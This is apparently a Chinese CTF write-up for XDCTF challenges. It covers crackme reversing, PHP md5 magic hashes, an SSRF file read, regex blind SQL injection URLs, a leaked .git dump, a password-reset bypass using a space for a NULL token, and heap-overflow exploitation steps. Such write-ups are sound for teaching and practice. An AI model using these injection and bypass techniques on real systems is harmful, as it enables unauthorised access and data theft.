

运行起来main函数有个ptrace反调试，修改返回值过了。之后输入的12位字符串与”ZzAwZF9DcjRrM3JfZzBfb24=”循环异或再异或7，通过这个函数计算最后获得的返回是Congratulations? Key is XDCTF{Input}，是个问号，在.fini_array中还有一个相似的函数再进行一次验证，这次验证成功后会把问号改成感叹号，所以正在的验证应该是.fini_array中的。而两个函数的差别就是第一个要异或7，.fini_array中的不异或7.
第二步位置变换
第三步判断异或之后如果小于0x1f,就加0x20
最后结果与[0x3B, 0x25, 0x23, 0x38, 0x34, 0x38, 0x4E, 0x21, 0x30, 0x5A, 0x3F, 0x37, 0x27, 0x25, 0x32, 0x33, 0x5D, 0x2F, 0x35, 0x23, 0x31, 0x22, 0x59, 0x58]比较
解密代码：
#coding=utf-8
key = [0x3B, 0x25, 0x23, 0x38, 0x34, 0x38, 0x4E, 0x21, 0x30, 0x5A, 0x3F, 0x37, 0x27, 0x25, 0x32, 0x33, 0x5D, 0x2F, 0x35, 0x23, 0x31, 0x22, 0x59, 0x58]
res = ""
key2 = "ZzAwZF9DcjRrM3JfZzBfb24="
for i in range(24):
if key[i] > 0x1f and key[i] <= 0x3f:
key[i] = key[i] - 0x20
print key
for i in range(12):
tmp = key[i]
key[i] = key[17 - i]
key[17 - i] = tmp
print key
print key2
for i in range(12):
res += chr(key[i] ^ ord(key2[i]))
print res
print len(res)
转为小写即可
代码加密保存，运行时解密，首先ida找到被加密代码的地方，od运行起来之后代码被解密，下断，第二次运行时先禁用断点，运行起来，激活断点就可以断在比较XDCTF的地方
根据代码一部分一部分修正输入即可复原处flag
flag: XDCTF{Congra_tUlat$eyOu}
输入的name,key全转为大写
计算machine code
通过name计算一个35位的key
把machine code、name计算得到的key和输入的key转存在这里，每个字符用一个dword存放
变换name计算出的key的顺序
通过machine code计算出一块数据(a)
触发异常，进入SEH
检测CC断点

用代码段的代码的二进制填充一段缓冲区
上一步提到的缓冲区经过运算变形(b)
通过之前的数据(a)(b)计算查表得到最终的注册码
这个问题在乌云社区讨论过，详情见http://zone.wooyun.org/content/20172
随便拿其中一个就行了。
<?php
var_dump(md5('240610708') == md5('QNKCDZO'));
var_dump(md5('aabg7XSs') == md5('aabC9RqS'));
?>
先查看页面源码，发现一个examples目录。进去发现要登录，提示说
Let Me Guess.. U 4re N0t Administrator!!!
然后尝试了很久的注入，并没有成功。然后放到扫描器里面一扫，有惊喜。
http://flagbox-23031374.xdctf.win:1234/examples/servlets/servlet/SessionExample
看到这个之后，就觉得是session操作。然后输入user=Administrator
然后提示，not login。然后把login改为1。在这个点的时候，我尝试了很多改cookie啥的。发现总是不行。
后面发现要把login改为true，也是醉了。
这是一个ssrf，一去进去就是一个框框。直接尝试file://index.php 然后就把index.php的源码读到了。
<?php
if (isset($_GET['link'])) {
$link = $_GET['link'];
// disable sleep
if (strpos(strtolower($link), 'sleep') || strpos(strtolower($link), 'benchmark')) {
die('No sleep.');
}
if (strpos($link,"http://") === 0) {
// http
$curlobj = curl_init($link);
curl_setopt($curlobj, CURLOPT_HEADER, 0);
curl_setopt($curlobj, CURLOPT_PROTOCOLS, CURLPROTO_HTTP);
curl_setopt($curlobj, CURLOPT_CONNECTTIMEOUT, 10);
curl_setopt($curlobj, CURLOPT_TIMEOUT, 5);
$content = curl_exec($curlobj);
curl_close($curlobj);
echo $content;
} elseif (strpos($link,"file://") === 0) {
// file
echo file_get_contents(substr($link, 7));
}
} else {
echo<<<EOF
<!--你瞅啥-->
然后继续读取文件。读hosts文件
# The following lines are desirable for IPv6 capable hosts
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1 9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com
然后看到一个绑定hosts的地址。然后去访问发现就是这个页面，看到这个经验告诉我这上面肯定还有其他的网站，不然没有必要绑定host。然后就想去读nginx的配置文件，fuzz了很久都没读取到。后面就想想会不会是在其他的端口，然后开burp爆破。

好家伙，果然有猫腻。3389端口是个dz7.2.然后打了一发faq的注入，发现不行。然后还是回到死胡同去猜文件路径，然后去读uc key。因为我以为uckey就是flag。后面再这里卡了很久，然后最后发现faq注入没成功的原因是因为编码问题，需要urlencode一下。这个解决后，那就直接上sqlmap跑。最后发现admin的密码就是flag
这个题目是给了提示之后才做出来的，给的提示是” 然后就去测试，其中在那个图片内容最下面提示你
<!--Please input the ID as parameter with numeric value-->
先测试
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=3“ or 1%23
返回图片
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=3“ or 0%23
返回Picture not found!
很明显这是一个盲注。然后继续测试，发现过滤了很多东西，一旦出现select substr left right ascii mid
这些关键字是永真。然后一直在fuzz，最后发现学长写的一篇文章http://laterain.sinaapp.com/?p=196 提到了一种正则盲注的方法
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=3" or user() REGEXP '^1' %23 为假
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=3" or user() REGEXP '^x' %23 为真
说明user()是已x开头。然后就这样猜解。但是到后面准备猜解其他表的内容，要用到select。但是这个是直接匹配的select，并不是检查的连接处。后面想起这个案例
http://www.wooyun.org/bugs/wooyun-2015-0101960
会不会我们要猜的数据就和当前的数据在通一个表里面呢。
然后经过一顿fuzz之后，好家伙果然就是这个。
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=3" or password REGEXP '^1' %23 为假
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=3" or password REGEXP '^5' %23 为真
说明password字段的第一个值为5开头。然后就这样一直跑最后得到hash 5832f4251cb6f43917df
二十位的hash让我想起了dede，然后去掉前三后一解密
2f4251cb6f43917d md5 lu5631209
然后登陆拿到flag
先通过猪猪侠的脚本
"files": {
"http://xdsec-cms-12023458.xdctf.win": {
"/.git/": [
"http://xdsec-cms-12023458.xdctf.win/.git/config"
],
"/": [
"http://xdsec-cms-12023458.xdctf.win/index.php"
]
},
"http://xdsec-cms-12023458.xdctf.win/": {
"/index.php/": [
"misdescription cleaned"
],
"/.git/": [
"http://xdsec-cms-12023458.xdctf.win/.git/config"
],
"/": [
"http://xdsec-cms-12023458.xdctf.win/index.php"
]
}
}
发现有git泄露，然后用脚本下载
./rip-git.pl -v -u http://xdsec-cms-12023458.xdctf.win/
然后恢复源码
git log
git reset -hard d16ecb1
然后在index.php里面发现flag
Congratulation, this is the [XDSEC-CMS] flag 1
XDCTF-{raGWvWahqZjww4RdHN90}
看到了hint
100 前台逻辑漏洞，做出此题可获得进入300的钥匙
然后又发现有人在ph这个用户里面发文章。觉得就是在找回密码这一块有问题，然后仔细看这一块的代码。
发现两个关键点
public function handle_resetpwd()
{
if(empty($_GET["email"]) || empty($_GET["verify"])) {
$this->error("Bad request", site_url("auth/forgetpwd"));
}
$user = $this->user->get_user(I("get.email"), "email");
if(I('get.verify') != $user['verify']) {
$this->error("Your verify code is error", site_url('auth/forgetpwd'));
}
if($this->input->method() == "post") {
$password = I("post.password");
if(!$this->confirm_password($password)) {
$this->error("Confirm password error");
}
if(!$this->complex_password($password)) {
$this->error("Password must have at least one alpha and one number");
}
if(strlen($password) < 8) {
$this->error("The Password field must be at least 8 characters in length");
}
$this->user->update_userinfo([
"password" => $password,
"verify" => null
], $user["uid"]);
$this->success("Password update successful!", site_url("auth/login"));
} else {
$url = site_url("auth/resetpwd") . "?email={$user['email']}&verify={$user['verify']}";
$this->view("resetpwd.html", ["form_url" => $url]);
}
}
在这个函数里面首先我们要过这个判断
if(empty($_GET["email"]) || empty($_GET["verify"])) {
$this->error("Bad request", site_url("auth/forgetpwd"));
}
email在源码中给出来了
<meta name="author" content="xdsec-cms@xdctf.com"/>
然后verify这个是找回密码的一个验证key。其生成方式是md5(uniqid(mt_rand()))，开始想着是不是这个值可以预测，然后决定自己太天真了。我们继续往下面看代码
$this->user->update_userinfo([
"password" => $password,
"verify" => null
], $user["uid"]);
这段代码说明，每次在找回密码之后都会把verify重置为NULL。好家伙，感觉问题的关键就在这里了。然后我自己写一段测试代码
<?php
$conn = mysql_connect("127.0.0.1","root","");
mysql_select_db("mysql", $conn);
$sql1 = "update `user` SET password = NULL where host = 'locathost' ";
$sql2 = "select password from user where host='localhost' limit 1,1";
mysql_query($sql1);
$result = mysql_query($sql2);
while($row = mysql_fetch_array($result))
{
var_dump($row['password']);
}
$id = @$_GET['id'];
if($id == $row['password']){
echo 'success';
}
?>
当我id穿入一个空格的是时候打印的是success，这就证明php在做比较的时候把空格和NULL相等了。
然后回到CMS里面，我们将verify赋为空格，然后成功重置ph用户的密码。
登录进去之后就发现了flag
其实发现网站上的源码和本地的源码不一样，因为我点击找回密码之后。应该生成了一个verify到数据，但是这个时候数据库的verify并没有生成。因为我通过空格还是成功修改了密码。
根据官方提示braiontools github下载下来，按照帮助手册bftools.exe decode braincopter zzzzzyu.png --output --out.png
用winhex将out.png打开将里边的内容丢到http://esoteric.sange.fi/brainfuck/impl/interp/i.html
解一下就可以了。
将areyoukiding丢kali中，binwalk看一下，发现有2个readme.txt，1个flag.txt，查资料查到http://bbs.csdn.net/topics/10444536 ，用winhex将未加密的readme和加密的readme 和flag扣出来用二楼的方法就可以了。
用瀚海源的 文件b超.
https://b-chao.com/
漏洞很明显,但没有libc,之前想着dump内存,把libc dump出来的,没弄好,后来找了个模板改下了就好了.
程序自己写了个堆管理,然后有个堆溢出.通过edit修改堆的类型即可覆盖下一个堆的结构,接着用del阔以修改4个字节.
利用的话:
1:先修改存堆地址的那部分,0x0804b060,通过show_girl()来泄露堆地址
2:在堆里放shellcode,然后修改got_exit()指向shellcode
整型溢出
如下图所示,在sub_8048c86()的函数调用中,v13 是个2字节的变量,并且是可控的,前面的判断逻辑即可使(v13+2)溢出来绕过
在sub_8048c86中,这里传递n是一个大数,就阔以读取到flag了.